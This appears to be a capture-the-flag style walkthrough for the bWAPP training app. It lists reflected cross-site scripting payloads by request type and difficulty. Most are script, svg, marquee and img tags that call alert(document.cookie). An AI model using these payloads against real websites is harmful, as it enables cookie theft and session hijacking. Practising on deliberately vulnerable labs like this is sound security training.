 XSS - Reflected (GET)(LOW)
Payload- <script>alert(document.cookie)</script>(can be inserted in both parameter Firstname and lastname)

XSS - Reflected (GET)(MEDIUM) 
Payload- <svg onload=alert(document.cookie)>(Can be inserted in both the parameter Firstname and Lastname)

XSS - Reflected (GET)(High)
NYF

XSS - Reflected (POST)(Low)
Payload-<script>alert(document.cookie)</script>

XSS - Reflected (POST)(Medium)
Payload-<svg onload=alert(document.cookie)>

XSS - Reflected (POST)(High)
NYF

XSS - Reflected (JSON)(Low)
Payload - <marquee onclick=alert(document.cookie)>Click on me</marquee>

XSS - Reflected (JSON)(Medium)
Payload – NYF

XSS - Reflected (JSON)(High)
Payload – NYF

XSS - Reflected (AJAX/JSON)(Low/Medium)
Payload - <marquee onclick=alert(1)>Click!!!</marquee>

XSS - Reflected (AJAX/JSON)(High)
Payload – NYF

XSS - Reflected (AJAX/XML)(Low/Medium)
Payload - &lt;img src=&apos;#&apos; onerror=&apos;alert(document.cookie)&apos;&gt;

XSS - Reflected (AJAX/XML)(High)
Payload - <a href="javascript:x='&percnt;27-alert('BugBot19 was here')-%27';">XSS</a>


XSS - Reflected (BackButton)(Low)
Payload - ‘-alert(document.cookie)-’

XSS - Reflected (BackButton)(Medium)
Payload – javascript:alert(document.cookie)

XSS - Reflected (BackButton)(High)
Payload – Same as medium
Javascript:alert(document.cookie)

XSS - Reflected (CustomHeader)(Low)
Payload- bWAPP:<script>alert(document.cookie)</script>

XSS - Reflected (CustomHeader)(Medium)
Payload – bWAPP:<marquee onclick=alert(document.cookie)>click to win 1$</marquee>


